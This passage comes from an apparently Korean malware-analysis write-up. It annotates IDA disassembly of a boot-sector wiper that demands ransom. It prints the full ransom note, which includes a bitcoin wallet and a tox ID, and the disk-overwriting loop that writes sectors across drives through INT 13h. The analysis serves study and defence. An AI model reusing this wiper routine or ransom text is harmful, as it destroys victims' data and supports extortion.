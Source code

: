     BOOT_SECTOR:7C1E                                         ; BL = foreground color (graphics modes)
    BOOT_SECTOR:7C20                 retn
    BOOT_SECTOR:7C20 sub_7C1C        endp
    BOOT_SECTOR:7C20
    ```
    
    `si` 에 `0x7c88` 을 넣는데, 해당 오프셋은 랜섬 노트의 오프셋이다.
    
    ```cpp
    BOOT_SECTOR:7C88 aYourHardDriveH db 'Your hard drive has been corrupted.',0Dh,0Ah
    BOOT_SECTOR:7C88                 db 'In case you want to recover all hard drives',0Dh,0Ah
    BOOT_SECTOR:7C88                 db 'of your organization,',0Dh,0Ah
    BOOT_SECTOR:7C88                 db 'You should pay us  $10k via bitcoin wallet',0Dh,0Ah
    BOOT_SECTOR:7C88                 db '1AVNM68gj6PGPFcJuftKATa4WLnzg8fpfv and send message via',0Dh,0Ah
    BOOT_SECTOR:7C88                 db 'tox ID 8BEDC411012A33BA34F49130D0F186993C6A32DAD8976F6A5D82C1ED23'
    BOOT_SECTOR:7C88                 db '054C057ECED5496F65',0Dh,0Ah
    BOOT_SECTOR:7C88                 db 'with your organization name.',0Dh,0Ah
    BOOT_SECTOR:7C88                 db 'We will contact you to give further instructions.',0
    BOOT_SECTOR:7DFB                 db 3 dup(0), 55h, 0AAh
    ```
    
    ```cpp
    BOOT_SECTOR:7C21 ; ---------------------------------------------------------------------------
    BOOT_SECTOR:7C21 ; START OF FUNCTION CHUNK FOR start
    BOOT_SECTOR:7C21
    BOOT_SECTOR:7C21 loc_7C21:                               ; CODE XREF: start:loc_7C1A↑j
    BOOT_SECTOR:7C21                                         ; start+5B↓j ...
    BOOT_SECTOR:7C21                 mov     ax, cs
    BOOT_SECTOR:7C23                 mov     ds, ax
    BOOT_SECTOR:7C25                 mov     word_7C78, ax 
    BOOT_SECTOR:7C28                 mov     dword ptr word_7C76, 7C82h // 0x7c76: transfer buffer, 0x7c82: AAAAA
    BOOT_SECTOR:7C31                 mov     ah, 43h ; 'C'
    BOOT_SECTOR:7C33                 mov     al, 0
    BOOT_SECTOR:7C35                 mov     dl, byte_7C87 // drive index offset(처음엔 0)
    BOOT_SECTOR:7C39                 add     dl, 80h // drive index(0x80 : C)
    BOOT_SECTOR:7C3C                 mov     si, 7C72h // 0x7c72: DAP
    BOOT_SECTOR:7C3F                 int     13h             ; DISK - IBM/MS Extension - EXTENDED WRITE (DL - drive, AL - verify flag, DS:SI - disk address packet)
    BOOT_SECTOR:7C41                 jb      short loc_7C45 // CF = 1(fail)
    BOOT_SECTOR:7C43                 jnb     short loc_7C5D // CF = 0
    BOOT_SECTOR:7C45
    BOOT_SECTOR:7C45 loc_7C45:                               ; CODE XREF: start+41↑j
    BOOT_SECTOR:7C45                 inc     byte_7C87 // 드라이브 오프셋 +1
    BOOT_SECTOR:7C49                 mov     dword_7C7A, 1 
    BOOT_SECTOR:7C52                 mov     dword_7C7E, 0
    BOOT_SECTOR:7C5B                 jmp     short loc_7C21
    BOOT_SECTOR:7C5D ; ---------------------------------------------------------------------------
    BOOT_SECTOR:7C5D
    BOOT_SECTOR:7C5D loc_7C5D:                               ; CODE XREF: start+43↑j
    BOOT_SECTOR:7C5D                 add     dword_7C7A, 0C7h
    BOOT_SECTOR:7C66                 adc     dword_7C7E, 0
    BOOT_SECTOR:7C6F                 clc // CF = 0
    BOOT_SECTOR:7C70                 jmp     short loc_7C21
    BOOT_SECTOR:7C70 ; END OF FUNCTION CHUNK FOR start
    ```
    